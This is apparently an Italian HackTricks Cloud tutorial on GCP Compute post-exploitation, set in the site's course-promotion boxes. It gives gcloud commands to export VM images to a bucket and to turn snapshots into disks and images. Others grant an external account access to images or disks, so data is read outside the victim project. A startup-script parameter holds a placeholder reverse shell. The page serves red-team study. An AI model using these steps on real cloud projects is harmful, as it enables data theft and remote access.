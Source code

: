 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Per ulteriori informazioni su Compute e VPC (Networking) controlla:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Esporta e ispeziona le immagini localmente

Questo permetterebbe a un attaccante di **accedere ai dati contenuti all'interno delle immagini già esistenti** o **creare nuove immagini di VM in esecuzione** e accedere ai loro dati senza avere accesso alla VM in esecuzione.

È possibile esportare un'immagine di VM in un bucket e poi scaricarla e montarla localmente con il comando:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Per eseguire questa azione, l'attaccante potrebbe aver bisogno di privilegi sul bucket di archiviazione e sicuramente **privilegi su cloudbuild**, poiché è il **servizio** che verrà richiesto di eseguire l'esportazione.\
Inoltre, affinché questo funzioni, il SA di codebuild e il SA di compute necessitano di permessi privilegiati.\
Il SA di cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` ha bisogno di:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

E il SA `<project-id>-compute@developer.gserviceaccount.com` ha bisogno di:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Esporta e ispeziona istantanee e dischi localmente

Non è possibile esportare direttamente istantanee e dischi, ma è possibile **trasformare un'istantanea in un disco, un disco in un'immagine** e seguendo la **sezione precedente**, esportare quell'immagine per ispezionarla localmente.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Ispezionare un'immagine creando una VM

Con l'obiettivo di accedere ai **dati memorizzati in un'immagine** o all'interno di una **VM in esecuzione** da cui un attaccante **ha creato un'immagine,** è possibile concedere a un account esterno l'accesso all'immagine:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
e poi creare una nuova VM da esso:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Se non puoi dare accesso al tuo account esterno tramite l'immagine, puoi avviare una VM utilizzando quell'immagine nel progetto della vittima e **far eseguire alla metadata una reverse shell** per accedere all'immagine aggiungendo il parametro:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Ispezionare uno Snapshot/Disk collegandolo a una VM

Con l'obiettivo di accedere ai **dati memorizzati in un disco o in uno snapshot, potresti trasformare lo snapshot in un disco, un disco in un'immagine e seguire i passaggi precedenti.**

Oppure potresti **concedere a un account esterno l'accesso** al disco (se il punto di partenza è uno snapshot, concedi l'accesso allo snapshot o crea un disco da esso):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Collega il disco** a un'istanza:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montare il disco all'interno della VM:

1.  **SSH nella VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identificare il Disco**: Una volta dentro la VM, identificare il nuovo disco elencando i dispositivi disco. Tipicamente, puoi trovarlo come `/dev/sdb`, `/dev/sdc`, ecc.
3. **Formattare e Montare il Disco** (se è un disco nuovo o raw):
*   Creare un punto di montaggio:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Montare il disco:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Se **non puoi dare accesso a un progetto esterno** allo snapshot o al disco, potresti dover **eseguire queste azioni all'interno di un'istanza nello stesso progetto dello snapshot/disk**.

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
